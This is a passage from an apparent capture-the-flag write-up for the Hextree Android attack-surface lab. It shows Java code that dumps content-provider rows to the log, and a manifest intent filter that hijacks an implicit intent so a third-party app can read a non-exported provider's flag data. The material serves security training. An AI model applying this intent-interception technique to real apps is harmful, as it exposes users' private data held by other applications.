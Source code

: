 ```java
        if (cursor.moveToFirst()) {  
            do {  
                StringBuilder sb = new StringBuilder();  
                for (int i = 0; i < cursor.getColumnCount(); i++) {  
                    if (sb.length() > 0) sb.append(", ");  
                    sb.append(cursor.getColumnName(i)).append(" = ").append(cursor.getString(i));  
                }  
                Log.d("evil", sb.toString());  
            } while (cursor.moveToNext());  
        }  
    }
}
```

### Flag 33_2
#### Code analysis
```xml
<provider
    android:name="io.hextree.attacksurface.providers.Flag33Provider2"
	android:enabled="true"
	android:exported="false"
	android:authorities="io.hextree.flag33_2"
	    android:grantUriPermissions="true"/>
```
Like the previous flag we cant access it but another component with the right requests it can access it and looking at activity33_2 it has the right requirements 

```java
    String stringExtra = getIntent().getStringExtra("secret");
    if (stringExtra == null) {
	    Intent intent = new Intent();
	    intent.setAction("io.hextree.FLAG33");
	    intent.setData(Uri.parse("content://io.hextree.flag33_2/flags"));
	    intent.addFlags(1);
	    startActivity(intent);
        return;
    }
```

This creates an implicit intent with action `"io.hextree.FLAG33"` and data to the second provider 
#### Solution
same payload as `flag33_1` but we will create a filter for the action 

```xml
<activity  
    android:name=".Providers"  
    android:exported="true" >  
    <intent-filter>        
	    <action android:name="io.hextree.FLAG33" />  
        <category android:name="android.intent.category.DEFAULT" />  
        <data android:scheme="content" android:host="io.hextree.flag33_2" />  
    </intent-filter>
</activity>
```
